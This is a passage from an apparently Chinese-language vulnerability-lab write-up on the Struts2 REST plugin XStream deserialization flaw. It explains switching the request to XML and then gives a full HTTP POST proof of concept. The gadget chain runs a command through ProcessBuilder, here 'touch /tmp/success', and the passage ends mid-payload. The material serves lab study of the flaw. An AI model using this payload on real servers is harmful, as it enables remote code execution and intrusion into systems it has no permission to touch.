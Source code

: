 由于 `rest-plugin` 会根据 URI 扩展名或 `Content-Type` 来判断解析方法，所以我们只需要修改 `orders.xhtml` 为 `orders.xml` 或修改 `Content-Type` 头为 `application/xml`，即可在 Body 中传递 XML 数据。

PoC 如下：

```xml
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
```